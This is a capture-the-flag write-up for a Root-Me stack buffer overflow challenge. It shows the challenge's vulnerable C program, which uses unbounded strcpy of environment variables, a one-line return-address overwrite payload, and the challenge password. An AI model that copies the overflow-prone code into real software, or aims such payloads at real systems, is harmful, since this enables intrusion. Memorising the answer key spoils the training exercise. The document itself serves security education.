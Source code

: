 # ELF x86 - Stack buffer overflow basic 4
- Point: 30pts
- Author: [Lu33Y](https://www.root-me.org/Lu33Y?lang=en),  8 February 2012
- Level: Medium <br>
- Can you return the env to me pleazzz ? <br><br>
![image](https://user-images.githubusercontent.com/48288606/144751579-b6431726-2894-4a1e-946f-4bc797c9245c.png)

## Write-up:

```
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string.h>
 
struct EnvInfo
{
  char home[128];
  char username[128];
  char shell[128];  
  char path[128];  
};
 
 
struct EnvInfo GetEnv(void)
{
  struct EnvInfo env;
  char *ptr;
   
  if((ptr = getenv("HOME")) == NULL)
    {
      printf("[-] Can't find HOME.\n");
      exit(0);
    }
  strcpy(env.home, ptr);
  if((ptr = getenv("USERNAME")) == NULL)
    {
      printf("[-] Can't find USERNAME.\n");
      exit(0);
    }
  strcpy(env.username, ptr);
  if((ptr = getenv("SHELL")) == NULL)
    {
      printf("[-] Can't find SHELL.\n");
      exit(0);
    }
  strcpy(env.shell, ptr);
  if((ptr = getenv("PATH")) == NULL)
    {
      printf("[-] Can't find PATH.\n");
      exit(0);
    }
  strcpy(env.path, ptr);
  return env;
}
 
int main(void)
{
  struct EnvInfo env;
   
  printf("[+] Getting env...\n");
  env = GetEnv();
   
  printf("HOME     = %s\n", env.home);
  printf("USERNAME = %s\n", env.username);
  printf("SHELL    = %s\n", env.shell);
  printf("PATH     = %s\n", env.path);
   
  return 0;  
}
```

Payload: `(python -c "print('\x08'*4+'\xbc\xfa\xff\xbf')";cat) | ./ch16`

Password: Sm4shM3ify0uC4n


